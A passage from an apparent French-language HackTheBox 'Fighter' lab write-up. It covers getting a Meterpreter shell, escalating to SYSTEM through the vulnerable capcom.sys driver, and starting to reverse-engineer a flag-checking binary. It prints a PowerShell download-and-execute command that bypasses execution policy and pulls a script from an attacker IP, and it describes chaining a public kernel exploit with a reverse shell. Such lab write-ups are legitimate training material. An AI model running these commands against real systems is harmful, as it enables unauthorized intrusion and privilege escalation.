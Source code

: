 Mais comment éditer un fichier de cette façon sous Windows ? Là encore PowerShell nous vient en aide :  

```plain
$strings = @()
$strings += "c:/windows/system32/windowspowershell/v1.0/powershell.exe -nop -exec bypass -c IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.15.59:443/reflection.ps1')"
$strings | Set-Content "c:\users\decoder\clean.bat"
```

L'idée est alors d'utiliser *Invoke-Expression* + *DownloadString* (comme fait jusqu'à présent) pour exécuter ce code et écrire dans le .bat puis ensuite de l'appeler pour enfin obtenir notre Meterpreter x64. Ce qui fonctionne :)  

Pour autant les exploits d'escalade de privilège suggérés par Metasploit n'aboutissent pas. Il fallait se référer au thème du challenge pour remarquer la présence du driver *capcom.sys* sur le système, ce dernier étant vulnérable [à un exploit PowerShell](https://github.com/FuzzySecurity/PSKernel-Primitives/blob/master/Sample-Exploits/Capcom/CapCom-GDI-x64Universal.ps1).  

Afin de pouvoir utiliser cet exploit il suffit alors de remplacer notre fichier *reflection.ps1* par la concaténation de l'exploit *Capcom* avec le reverse shell *Nishang* ce qui permet d'obtenir un shell *NT\SYSTEM*.  

You win !
---------

A ce stade on parvient bien sûr à obtenir le flag de l'utilisateur *decoder* (bb6163c184f203af2a31a9c035934297) mais surprise quand on souhaite obtenir le flag de l'administrateur :  

```plain
PS C:\users\administrator\desktop> dir

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        24/10/2017     17:02       9216 checkdll.dll
-a---        08/01/2018     22:34       9728 root.exe
-a---        24/10/2017     21:06   13767776 vc_redist.x86.exe
```

Il semble que l'on ait un peu de reverse-engineering sur la planche !  

Le binaire *root.exe* ne fait que se servir de la fonction *dll\_check* de la DLL présente en lui passant la chaîne correspondant à *arvg[1]*. Si le résultat de cette fonction est 1 alors le flag nous est remis.  

![Fighter HackTheBox root.exe assembly code](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/fighter_root_exe.png)

On peut obtenir l'adresse de la fonction dans la DLL avec la commande *rabin2 -E checkdll.dll*. Une fois l'adresse obtenue on désassemble dans radare2 :  

![HackTheBox Fighter checkdll.dll disassembly](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/fighter_checkdll.png)

La première chose à faire est de déterminer l’étendue de la fonction en regardant jusqu'où s'arrête chaque embranchement. Ici on voit qu'on ira pas plus loin que l'adresse 0x10001032 et que la fonction n'effectue pas de call. Elle est donc très courte.  
